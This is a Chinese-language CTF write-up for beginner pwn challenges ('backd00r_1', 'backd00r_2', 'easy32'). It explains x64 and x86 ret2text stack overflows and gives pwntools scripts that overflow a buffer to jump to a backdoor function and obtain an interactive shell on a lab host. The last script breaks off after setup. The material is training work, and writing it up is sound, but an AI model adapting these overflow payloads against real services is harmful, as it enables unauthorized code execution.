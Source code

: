 熊老师难得开了次后门，eng?该怎么进入后门呢？
### 考察知识点：
x64的ret2text：学会计算栈溢出长度
### 做题过程
![image.png](https://cdn.nlark.com/yuque/0/2023/png/38460676/1694006002754-31d8093a-d6bc-487a-a250-d8f5845632b8.png#averageHue=%23313540&clientId=u558950f5-7af6-4&from=paste&height=153&id=u38af3458&originHeight=191&originWidth=583&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=47508&status=done&style=stroke&taskId=ubd6610c0-2270-4ff1-8eee-9924042156d&title=&width=466.4)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/38460676/1694005674772-5fdc7f8e-7fb9-4e32-9221-f06fd1ff2f7c.png#averageHue=%23f1efed&clientId=u558950f5-7af6-4&from=paste&height=213&id=GxKjW&originHeight=266&originWidth=514&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=19282&status=done&style=stroke&taskId=u797b9241-e628-44ec-bafe-e93ebf3f1e9&title=&width=411.2)
简单的ret2text exp如下
```python
from pwn import *
# 设置上下文语境
context(log_level = 'debug', os = 'linux', arch = 'amd64')

#sh = process("./backd00r1")
sh = remote("10.10.175.100",33565)
#dbg()
backdoor_addr = 0x400768
sh.recvline()
payload = 0x20*b'a'+8*b'a'+p64(backdoor_addr)
sh.sendline(payload)
# 输入num
sh.interactive()
```
## bear的backd00r_2
难度：**
熊老师又开了次后门，这个后门好像还有点不一样了...
### 考察知识点：
x86的ret2text：学会计算栈溢出长度
exp如下：
```python
from pwn import *
# 设置上下文语境
context(log_level = 'debug', os = 'linux', arch = 'i386')

#sh = process("./backd00r2")
sh = remote("10.10.175.100",33567)
backdoor_addr = 0x80485D0
payload = 0x1c*b'a'+4*b'a'+p32(backdoor_addr)
sh.sendline(payload)
# 输入num
sh.interactive()

```
## bear的easy32
难度：**
### 考察知识点：
x86函数调用
```python
from pwn import *
# 设置上下文语境
context(log_level = 'debug', os = 'linux', arch = 'i386')
def dbg():
    gdb.attach(sh)
    pause()

#sh = process("./easy32")
#elf = ELF("./easy32")
sh = remote("10.10.175.100",33569)
#dbg()
```